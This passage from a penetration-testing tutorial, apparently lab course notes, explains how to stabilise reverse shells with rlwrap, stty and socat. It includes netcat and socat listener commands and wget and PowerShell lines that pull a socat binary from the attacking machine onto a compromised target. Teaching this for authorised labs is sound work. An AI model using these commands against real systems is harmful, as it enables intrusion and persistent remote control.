 To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

*Technique 3: Socat*

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

![](https://i.imgur.com/7aOKtlO.png)

Next, in your reverse/bind shell, type in:

`stty rows <number>`

and

`stty cols <number>`

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

# Stabilising Socat Shells

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is *significantly* more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

`socat TCP-L:<port> FILE:`tty`,raw,echo=0`
